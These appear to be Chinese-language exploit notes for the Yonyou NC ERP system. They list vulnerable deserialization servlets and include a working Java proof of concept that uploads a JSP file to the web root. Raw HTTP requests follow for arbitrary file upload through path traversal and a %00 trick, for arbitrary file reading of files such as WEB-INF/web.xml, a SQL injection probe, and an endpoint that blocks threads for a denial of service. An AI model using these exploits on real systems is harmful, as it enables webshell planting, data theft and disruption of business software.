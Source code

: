 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet 
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

```
FileUploadServlet.class
FileParserServlet.class
FileManageServlet.class
ContactsQueryServiceServlet.class  
ContactsFuzzySearchServlet.class
ConfigResourceServlet.class 
ActionHandlerServlet.class
```

FileReceiveServlet.class  文件上传poc如下：（万一cc链利用不了 上面其他反序列化都可以像这样构造来还原原始请求逻辑）

```java
public class Yongyou_upload {
    public static void main(String[] args) throws Exception {
        BufferedReader reader;
        StringBuffer response;

        String proxyHost = "127.0.0.1";
        int proxyPort = 8080;
        Proxy proxy = new Proxy(Proxy.Type.HTTP, new InetSocketAddress(proxyHost, proxyPort));

        String name = "1.jsp";
        String filepath = "c:/1.txt";
        String filename1 = generateRandomString(6)+name;
        String path="/servlet/FileReceiveServlet";
        Map<String, Object> metaInfo = new HashMap<String, Object>();
        metaInfo.put("TARGET_FILE_PATH", "webapps/nc_web");
        metaInfo.put("FILE_NAME", filename1);

        String uri="http://192.168.29.130:8081";
        URL url = new URL(uri+path);
        System.out.println(uri);
        HttpURLConnection httpUrlConn = (HttpURLConnection)url.openConnection(proxy);
        httpUrlConn.setRequestProperty("Content-Type","application/x-java-serialized-object");
        httpUrlConn.setDoOutput(true);
        httpUrlConn.setDoInput(true);
        httpUrlConn.setUseCaches(false);
        httpUrlConn.setRequestMethod("POST");
        httpUrlConn.connect();
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        OutputStream out = httpUrlConn.getOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(out);
        oos.writeObject(metaInfo);
        File file = new File(filepath);
        Long filelength = file.length();
        byte[] filecontent = new byte[filelength.intValue()];
        try {
            FileInputStream in =new FileInputStream(file);
            byte[] buf = new byte[1024];
            int len = 0;
            while ((len = in.read(buf)) != -1) {
                baos.write(buf, 0, len);
            }
            baos.flush();
            baos.writeTo(out);
            baos.close();
            InputStream inputStream = httpUrlConn.getInputStream();
            reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
            String lines;
            response = new StringBuffer("");

            while ((lines = reader.readLine()) != null) {
                response.append(lines);
            }
        } catch(IOException e) {
            e.printStackTrace();
        }
        URL httpUrl = new URL(uri+"/"+filename1);
        HttpURLConnection httpURLConnection = (HttpURLConnection) httpUrl.openConnection(proxy);
        httpURLConnection.setReadTimeout(50000);
        httpURLConnection.setRequestMethod("GET");
        if(httpURLConnection.getResponseCode()==200){
            System.out.println("文件地址 地址:\n"+uri+"/"+filename1);
        }
    }

    public static String generateRandomString(int length) {
        String characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
        Random random = new Random();
        StringBuilder sb = new StringBuilder(length);

        for (int i = 0; i < length; i++) {
            int index = random.nextInt(characters.length());
            sb.append(characters.charAt(index));
        }
        return sb.toString();
    }
}

```



## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

 
## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

​	

## sql注入

```
http://127.0.0.1:8081/servlet/~pubapp/com.yonyou.ma.roster.servlet.MARosterPhotoServlet?photoId=123'&type=pid
	
	
```

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
